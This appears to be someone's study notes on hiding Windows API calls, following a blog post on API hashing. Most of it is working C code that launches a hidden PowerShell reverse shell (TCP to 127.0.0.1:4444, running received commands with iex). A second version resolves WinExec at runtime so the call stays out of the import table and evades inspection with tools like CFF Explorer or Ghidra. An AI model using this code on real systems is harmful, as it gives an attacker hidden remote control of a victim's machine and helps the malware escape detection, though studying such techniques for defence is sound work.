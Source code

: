 # windows api hashing

https://trikkss.github.io/posts/hiding_windows_api_calls_part1/

Windows code for reverse shell
```c
#include <windows.h>

int main(void){
    WinExec("powershell -nop -c \"$client = New-Object System.Net.Sockets.TCPClient('127.0.0.1',4444);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()\"", SW_HIDE);
    return 0;

}
```

```
gcc windows.c               
windows.c:1:10: fatal error: windows.h: No such file or directory
    1 | #include <windows.h>
      |          ^~~~~~~~~~~
compilation terminated.
                          
```

need to use a windows client for this.

before a function is used libraries will be loaded in memory and their function addresses will be referenced in the import address table (IAT)

If we look into our import table (I used CFF Explorer to do it) we can see several imported DLLs and our suspicious function (WinExec)

CFF explorere can be used to look at the import address table

first way to fide our function would be to retreive its address at runtime

```c
#include <windows.h>

typedef UINT(WINAPI* winexec)(LPCSTR lpCmdLine, UINT uCmdShow);

int main(void)
{
    // get handle of kernel32.dll
    HMODULE kernel32_dll = GetModuleHandle("kernel32.dll");
    // parse it to find the WinExec function
    winexec WinExec_imported = (winexec)GetProcAddress(kernel32_dll, "WinExec");
    // execute our reverse shell
    WinExec_imported("powershell -nop -c \"$client = New-Object System.Net.Sockets.TCPClient('127.0.0.1',4444);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()\"", SW_HIDE);
    return 0;
}

```

but this can be read by ghidra